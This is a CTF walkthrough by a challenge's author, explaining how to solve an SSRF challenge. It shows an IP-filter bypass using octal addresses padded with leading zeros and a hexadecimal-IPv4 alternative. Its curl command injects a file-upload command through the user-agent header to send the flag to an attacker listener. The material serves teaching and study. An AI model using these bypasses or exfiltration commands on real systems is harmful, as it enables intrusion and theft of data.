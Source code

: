# MeduSurf: Walkthrough

It's another SSRF! This time, exploits have been made slightly more difficult by:
- introducing a more thorough IP address filter
- moving sensitive internal functionality to a non-HTTP service that doesn't return sensitive data directly

The IP address filter attempts to block _all_ IP addresses from being passed as hostnames. However, the "performance optimization" breaks this because the IP address parser accepts arbitrarily many leading zeros in octal IPv4 addresses. ~(Side note: Unlike cURL, the underlying Erlang libraries treat IPv4 addresses with hexadecimal as if they're domain names. That comment isn't a lie.)~ _edit: see 'Alternatives' below_

Attempts to bypass the filter using redirects should fail. Gleam `httpc` as of 3.0.0 no longer follows redirects by default, overriding the behavior of the Erlang library it wraps.

The next step is sending a valid command to the backend service and exfiltrating the flag. This little Python service uses a custom protocol in which commands are separated by semicolons. There's a command to upload an arbitrary file to a supplied URL. It requires whitespace, so injecting this command in the request path shouldn't work. Fortunately, the new app forwards the `user-agent` header with proxied requests.

## The Author's Solution

1. Set up an HTTP listener to receive the file.
2. Construct an exploit payload with:
    - a valid localhost IP address containing lots of leading zeros for at least one octet
    - a `user-agent` header containing log export command like `;export_log_files /app/flag.txt ${LISTENER_URL};`
```bash
curl 'http://127.1:8080/proxy' \
  -H "user-agent: ;export_log_files%20flag.txt%20http://${LISTENER_HOST}:8080/;" \
  -H "content-type: application/json" \
  --data-raw "{\"url\":\"http://127.0000000000000000000000000000000000000000000000000000000000000000001:1337/\"}'
```

## Alternatives

It's probably possible to bypass the URL filter by pointing a domain at localhost, too. I haven't bothered to test that method, but also didn't bother to try to block it.

Mid-CTF update: There was an unintended solve using hexadecimal IPv4! I believe it works because Erlang's `inet:gethostbyname` uses the system's libc `gethostbyname` (`man 3 gethostbyname`). On my laptop (EndeavourOS, using glibc), this does not treat hexadecimal IPv4 addresses as IP addresses. On Alpine (using musl, and the base image for the `medusurf` container) `gethostbyname` _does_ resolve hexadecimal IPv4 addresses as literal addresses. Next time, I'll need to remember to check for system-dependent quirks in hostname resolution :)
